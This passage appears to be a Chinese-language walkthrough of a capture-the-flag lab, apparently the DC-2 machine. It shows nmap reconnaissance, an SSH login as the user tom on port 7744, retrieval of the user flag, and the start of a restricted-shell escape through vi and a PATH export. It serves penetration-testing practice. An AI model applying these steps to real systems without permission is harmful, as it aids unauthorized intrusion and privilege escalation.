 ### - Nmap
```
┌──(chw㉿CHW)-[~]
└─$ nmap -p- 192.168.117.194
Nmap scan report for 192.168.117.194
Host is up (0.098s latency).
Not shown: 65533 closed tcp ports (reset)
PORT     STATE SERVICE
80/tcp   open  http
7744/tcp open  raqmon-pdu

┌──(chw㉿CHW)-[~]
└─$ nmap -sC -sV -p 7744  192.168.117.194
Starting Nmap 7.95 ( https://nmap.org ) at 2025-03-19 23:42 EDT
Nmap scan report for 192.168.117.194
Host is up (0.100s latency).

PORT     STATE SERVICE VERSION
7744/tcp open  ssh     OpenSSH 6.7p1 Debian 5+deb8u7 (protocol 2.0)
| ssh-hostkey: 
|   1024 52:51:7b:6e:70:a4:33:7a:d2:4b:e1:0b:5a:0f:9e:d7 (DSA)
|   2048 59:11:d8:af:38:51:8f:41:a7:44:b3:28:03:80:99:42 (RSA)
|   256 df:18:1d:74:26:ce:c1:4f:6f:2f:c1:26:54:31:51:91 (ECDSA)
|_  256 d9:38:5f:99:7c:0d:64:7e:1d:46:f6:e9:7c:c6:37:17 (ED25519)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```
### 7. SSH
使用 tom 成功登入
```
┌──(chw㉿CHW)-[~]
└─$ ssh tom@192.168.117.194 -p 7744
tom@192.168.117.194's password: 

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
tom@DC-2:~$ ls
flag3.txt  local.txt  usr
 
```

### ✅ Get User Flag
> 在 `/home/tom`找到 User flag
## Privileges Escalation
### 8. 查看 flag3.txt
```
tom@DC-2:~$ cat flag3.txt
-rbash: cat: command not found
tom@DC-2:~$ vi flag.txt
poor old Tom is always running after Jerry. Perhaps he should su for all the stress he causes.
```
### 9. Vi 跳脫 restricted shell
先嘗試 Python 取得互動式 Shell
```
tom@DC-2:~$ echo $PATH
/home/tom/usr/bin
tom@DC-2:~$ export PATH=/bin:/usr/bin:$PATH
```